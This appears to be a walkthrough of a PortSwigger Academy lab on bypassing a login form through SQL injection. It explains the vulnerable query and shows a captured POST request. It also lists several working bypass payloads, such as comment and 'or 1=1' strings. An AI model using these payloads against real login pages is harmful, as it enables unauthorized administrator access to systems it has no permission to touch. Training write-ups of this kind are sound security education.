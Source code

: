# Lab Description
## Lab: SQL injection vulnerability allowing login bypass

This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that **logs in to the application as the administrator user**.

# Lab Solution

Authentication bypass is when an unauthenticated user gains access equivalent to an authenticated user without ever going through an authentication procedure. This is usually the result of the usage of an unexpected access procedure that does not go through the proper validation process ([CAPEC-115: Authentication Bypass](https://capec.mitre.org/data/definitions/115.html)[^1]).

One of the ways how to test authentication bypass is through the SQL injection in HTML Form Authentication (https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema.html)[^2], and that is the aim of this exercise.

The second lab provides us with a similar web application as last time.

![starting](Assets/1.png)

However, this time we are presented with the `My account` section instead of the search filter.

After access the link, we are redirected to endpoint `HTTPS://<redacted>.web-security-academy.net/login`, presenting an HTML Login Form with two input fields `Username` and `Password`.


![login-page](Assets/2.png)

Without access to the code, we can assume that the SQL query, which will be sent to the database looks like the following:

```
SELECT * FROM users WHERE username = 'username' AND password = 'password'
```

The lab description gave us a username: `administrator`. Therefore, we must find the query modification to satisfy the condition, return `TRUE`, and grant us access.

At first, we will send the POST request with an arbitrary password of `0000`.

The SQL query will look like this:

```
SELECT * FROM users WHERE username = 'administrator' AND password = '0000'
```

As we can see in the HTTP response, we received an **Invalid username or password** response due to the incorrect password provided to the application.

![invalid-password](Assets/4.png)

Because we do not know the password, we need to modify the SQL query to either validate the condition as TRUE and/or ignore the part where it compares the value of the password with the value stored in the database.
We will use the concept from the first exercise and apply the `--` comment here. This way, as shown in the SQL query below, we will effectively eliminate the password validation and log in as administrator.

```
SELECT * FROM users WHERE username = 'administrator'-- AND password = '0000'
```

![example-from-lab1](Assets/5.png)

The payload worked, and we successfully bypassed the authentication and became administrator.

![solved-exercise](Assets/6.png)

#### Is there any other way?

To see if other login techniques works, we used the [list of queries for SQL injection authentication bypass](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)[^3] and tested it against the /login webpage.

Because we know the username, we changed the original list's username `admin` to `administrator`.

Again, as the first step, we will send the HTTP POST request with an arbitrary password of `0000`, capture it with proxy and send the captured HTTP POST request to [Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/using)[^4].


**HTTP request**
```
POST /login HTTP/1.1
Host: 0ab6008d04381b6bc03f3685007a004e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close

csrf=AGXPTGACvFjhx8ZHJH8DRvwxUfTU3Ntp&username=administrator&password=0000
```

The following payloads were tested and logged us in as administrator indicating multiple ways how to bypass the authentication process.

```
administrator' --
administrator' or '1'='1
administrator' or '1'='1'--
administrator'or 1=1 or ''='

```

#### Do we need a username?

In this case, the answer is NO.

If we provide application a condition that always evaluates to TRUE, the entire WHERE statement will be TRUE, regardless of the username or password.

[The WHERE statement](https://brightsec.com/blog/sql-injection-attack/)[^5] will then return the first ID from the users table, which is commonly the administrator. This means the unauthenticated user can access the application without authentication and administrator privileges.

Therefore, SQL queries using such inputs give us a passing flag in this exercise. Examples:

```
admin' or '1'='1'--
admin'or 1=1 or ''='
admin' or 1=1--
```

Thank you for reading and see you in the next lab!


[^1]: https://capec.mitre.org/data/definitions/115.html
[^2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema.html
[^3]: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
[^4]: https://portswigger.net/burp/documentation/desktop/tools/intruder/using
[^5]: https://brightsec.com/blog/sql-injection-attack/
